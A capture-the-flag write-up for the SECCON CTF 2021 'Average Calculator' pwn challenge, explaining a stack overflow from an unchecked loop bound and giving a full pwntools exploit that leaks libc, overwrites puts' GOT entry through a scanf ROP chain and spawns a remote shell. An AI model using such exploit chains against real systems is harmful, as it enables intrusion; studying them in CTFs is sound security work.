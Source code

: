 # SECCON CTF 2021

## Average Calculator

> 129
>
> Average is the best representative value!
> `nc average.quals.seccon.jp 1234`
>
> Author: kusano
Tags: _pwn_ _x86-64_ _bof_ _remote-shell_ _rop_ _got-overwrite_

## Analysis

### Checksec

```bash
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### File command output

```bash
    ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked
```

So we are given a binary with no PIE and no canary. In this conditions we can think of trying a simple buffer overflow or/with Return from oriented programing. Also, as it is dynamically link, we will need to leak libc base adress in order to call either gadjets or libc functions.

## Finding the vulnerability

```c
int main()
{
    long long n, i;
    long long A[16];
    long long sum, average;

    alarm(60);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    printf("n: ");
    if (scanf("%lld", &n)!=1)
        exit(0);
        
    for (i=0; i<n; i++)
    {
        printf("A[%lld]: ", i);
        if (scanf("%lld", &A[i])!=1)
            exit(0);
        //  prevent integer overflow in summation
        if (A[i]<-123456789LL || 123456789LL<A[i])
        {
            printf("too large\n");
            exit(0);
        }
    }

    sum = 0;
    for (i=0; i<n; i++)
        sum += A[i];
    average = (sum+n/2)/n;
    printf("Average = %lld\n", average);
}
```

As we can see, the for loop runs n times without any array bounds check whatsoever. Furthermore, we provided de n value. That means we can right outside de buffer. We have just found our vulnerability!!!!
However, when we start writing outside the buffer, trying to reach rip, we will overwrite the n value. We need to be carefull with that, since it might cause the loop to end earlier than expected! There's another detail worth mentioning, the program checks if the value written to A[i] is valid (in this case, valid means -123456789 < A[i] < 123456789). To bypass this, we will have to be creative, but we'll get to it latter.
Last but not least, we risk overwriting the loop's i variable with our buffer overflow, thus we need to be carefull with that one as well.

## Exploit

After some trial and error, I was able to conclude that the n value is stored immediately after the buffer (that is A[16]) and the i is stored a little further down, A[19]. Having said that, we just need to watch for those specific writes and we should be good.

```python
#!/usr/bin/env python3
from pwn import *
from binascii import hexlify
from struct import * 
import os
context(arch="amd64", os="linux")
binary_path = "./average"
binary = ELF(binary_path)

SERVER = "average.quals.seccon.jp"
PORT = 1234
local = True 
if(len(sys.argv) > 1 and "-remote" == sys.argv[1]):
    local = False

if local:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    io = process(binary_path,timeout=9999)
else:
    libc = ELF("./libc.so.6")
    io = remote(SERVER, PORT, timeout=9999)
```

This is a standard pwntools header.
Now to leak libc base address, we need to call puts with puts adress as an argument and return to main for a second run. However this time we will know the libc base adress and the exploitation will be a simple ret2libc.

```python
def overflow(exec = 1):
    numbers = [i for i in range(1,101)]
    k = 0
    i = 0
    while(k < n):
        if(i == 16):
            io.sendline(bytes(str(n),"ASCII"))
        elif(i == 19):
            io.sendline(bytes(str(k),"ASCII"))
        else:
            if(k == 21):
                if(exec == 1):
                    io.sendline(bytes(str(0x00000000004013a3),"ASCII")) 
                    io.sendline(bytes(str(binary.got.puts),"ASCII")) 
                    io.sendline(bytes(str(binary.plt.puts),"ASCII")) 
                    io.sendline(bytes(str(binary.sym.main),"ASCII")) 
                    k += 3
                else:
                    k += setup(binary.bss(0x100))
            elif(k == 27 and exec !=1):
                k += setup(binary.got.puts)
            elif(k == 33 and exec != 1):
                io.sendline(bytes(str(0x00000000004013a4),"ASCII"))
                io.sendline(bytes(str(0x00000000004013a3),"ASCII"))
                io.sendline(bytes(str(binary.bss(0x100)),"ASCII"))
                io.sendline(bytes(str(binary.plt.puts),"ASCII"))
                k += 3
            else:
                io.sendline(bytes(str(numbers[k]),"ASCII"))
        k += 1
        i = (i+1) % 20   
```

This my exploit's main function. Since we are on the first run of main, we will look at what happens when variable exec (short for execution) is 1 (its default value). My while loop will run as many times as n (the n value from the binary that I mentioned above), so each iteration writes on buffer's A[k]. I figgured out that writing on A[21] overwrites the rip, and gives us control over the code execution. To correctly call puts with the arguments that we want, we will have to rely on one of the gadjets mentioned bellow.
Note: the variable i is used to account for the loop's i and n overwrites, allowing to continuously write on the buffer.

```python
0x00000000004013a3 : pop rdi ; ret

0x00000000004013a1 : pop rsi ; pop r15 ; ret
```

Since the argument passed to put goes in rdi register, we will use the first gadjet (we will discuss the second one later). Keeping that in mind, we set up the puts call by giving puts its on adress and the adress of main to return for the second run. Having dealt with libc, we move on to the second run of main.

For the second run, we will use a simular logic. Only this time, we will try to call system('/bin/sh) to get our shell. The verification that I mentioned early, will block us from writting directly on the stack using our buffer overflow (as system adress >123456789, thus causing the binary to call exit). Note that in the second run the exec variable will be equal to 2 (to make sure that it won't execute the same code as before).

After thinking for a while, I came to the conclusion that I can use scanf (in the binary corresponds to the symbol __isoc99_scanf), to overwrite the got entry for puts with system address. This way, we can call puts with '/bin/sh' and get out shell. Since, we will need to write /bin/sh in memory and perform the got overwrite, I wrote a function to ease the process.

```python
def setup(memory):
    adress = [0x00000000004013a1,0,1,0x00000000004013a3,0x0000000000402008,0x401070]
    adress[1] = memory
    for i,number in enumerate(adress):
        io.sendline(bytes(str(number),"ASCII"))
    return i  
```

Looking at the disassembled code for the scanf call (I used gdb for this part), we can note that scanf takes two arguments: the format string in rdi and the memory place to store the value that was read in rdi. Setting up rdi is easy, we have done that before. To set up the rsi, we will rely on the second gadjet that ROPgadjet gave us. This function simply sends the adresses to call those gadjets and in the end calls scanf.
Taking a look into my overflow function for the second run, it is worth mentioning that it also writes /bin/sh in the bss section + 0x100 (to give stack room for the system function).
After having everything set up, we call the pop rdi gadjet one last time, to set it to the adress of /bin/sh, and call system. We should have a shell by now!!!
Note: I decided to use the same format string as the binary, not only because that adress can be found easily using gdb, but also, because it reads a long long integer (which is exactly what we need). Finally, every 6 writes on the buffer A, we write the return value of the function that we call, hence my exploit if's are distance by 6.

```python
n = 25
io.sendline(bytes(str(n),"ASCII"))
overflow()
io.recvuntil(b'Average')
io.recvline()
leak = io.recv(6)
libc.address  = u64(leak+ b'\0\0') - libc.sym.puts
log.info(f"libc adress: {hex(libc.address)}")
n = 37
io.sendline(bytes(str(n),"ASCII"))
overflow(2)
io.sendline(str(int('0x' + hexlify(b'//bin/sh'[::-1]).decode(),16)).encode())
io.sendline(bytes(str(libc.sym.system),"ASCII"))
io.recvuntil(b'Average')
io.recvline()
io.sendline(b"cat flag.txt")
io.interactive()
```

This is just the end of my exploit, where we just send the n values for both runs, calculate the libc base adress with the leaked value and get the flag.

```bash
[+] Opening connection to average.quals.seccon.jp on port 1234: Done
[*] libc adress: 0x7fae08385000
[*] Switching to interactive mode
SECCON{M4k3_My_4bi1i7i3s_4v3r4g3_in_7h3_N3x7_Lif3_cpwWz9jpoCmKYBvf}
```

Remember that this is one of many possible solutions.
